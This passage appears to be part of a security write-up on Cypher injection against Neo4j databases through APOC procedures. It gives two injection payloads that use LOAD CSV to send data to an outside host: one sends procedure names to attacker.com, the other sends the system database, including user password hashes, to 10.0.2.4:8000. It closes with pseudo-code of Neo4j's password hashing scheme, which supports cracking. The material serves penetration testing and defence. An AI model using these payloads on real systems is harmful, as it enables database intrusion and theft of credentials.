 ```plaintext
' OR 1=1 CALL apoc.cypher.run("SHOW PROCEDURES yield name RETURN name",{}) yield value 

 LOAD CSV FROM 'https://attacker.com/' + value['name'] as _l RETURN 1 // 
```

### Get system database (including password hashes)

The system database is a special Neo4j database that is not normally queryable. It contains interesting data stored as nodes:

- Databases
- Roles
- Users (including the hash of the password!)

Using APOC, it's possible to retrieve the nodes, including the hashes. Only admins can do this, but in the free edition of Neo4j, there's only an admin user and no other users, so it's not uncommon to find yourself running as an admin.

Use the procedure apoc.systemdb.graph() to retrieve the data.

**Arguments:** None

**Return values:**

|Name|Type|Description|
|---|---|---|
|Nodes|List⟨Node⟩|The nodes in the database|
|Relationships|List⟨Relationship⟩|The relationships in the database|

Neo4j works in an unexpected way with such nodes: if you just return the nodes, you can see their data. But if you try to get a specific field, this won't work. That's because Neo4j will look for the node ID and will return the field from the node with the same ID in the current database.

One solution is to use the function apoc.convert.toJson(), which gets any input and converts it to JSON.

**Injection example:**

```plaintext
' OR 1=1 WITH 1 as a  call apoc.systemdb.graph() yield nodes LOAD CSV FROM 'http://10.0.2.4:8000/?nodes=' + apoc.convert.toJson(nodes) as l RETURN 1 //  
```

**Notes:** In Neo4j5, the procedures were moved to APCO extended.

### The hash

Neo4j uses SimpleHash by Apache Shiro to generate the hash.

Below is a pseudo-code (AKA python) of the hashing process:

```python
def hash(password, salt, iterations): 

    data = salt+password 

    for i in range(iterations): 

        m = sha256() 

        m.update(data) 

        data = m.digest() 

    return hexlify(data) 
```

